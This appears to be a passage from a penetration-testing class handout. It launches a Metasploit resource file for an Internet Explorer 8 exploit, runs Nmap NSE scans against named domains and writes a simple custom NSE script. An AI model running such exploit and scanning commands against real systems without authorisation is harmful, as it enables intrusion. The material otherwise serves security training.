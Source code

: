echo exploit -j -z >> /home/strategicsec/toolz/metasploit/old-faithful-ie8.rc
 
 
 
- Ok, that was more fun than the previous one. Now let's take a quick look at the .rc file we just created.
cat /home/strategicsec/toolz/metasploit/autorun-walk-through.rc
 
 
- Alright, enough already. Let's run this thing.
./msfconsole -r old-faithful-ie8.rc



####################################
# Section 4: Playing with Nmap NSE #
####################################
 
nmap -Pn -p80 --script ip-geolocation-* strategicsec.com
 
nmap -p80 --script dns-brute strategicsec.com
 
nmap --script http-robtex-reverse-ip secore.info
 
nmap -Pn -p80 --script=http-headers strategicsec.com
 
 
ls /usr/share/nmap/scripts | grep http
nmap -Pn -p80 --script=http-* strategicsec.com
 
############
# Nmap NSE #
############
 
- Reference for this tutorial is:
https://thesprawl.org/research/writing-nse-scripts-for-vulnerability-scanning/
 
----------------------------------------------------------------------
sudo vi /usr/share/nmap/scripts/intro-nse.nse
 
-- The Head Section --
-- The Rule Section --
portrule = function(host, port)
    return port.protocol == "tcp"
            and port.number == 80
            and port.state == "open"
end
 
-- The Action Section --
action = function(host, port)
    return "Advanced Pentester Night School!"
end
----------------------------------------------------------------------
 
- Ok, now that we've made that change let's run the script
sudo nmap --script=/usr/share/nmap/scripts/intro-nse.nse strategicsec.com -p 22,80,443
 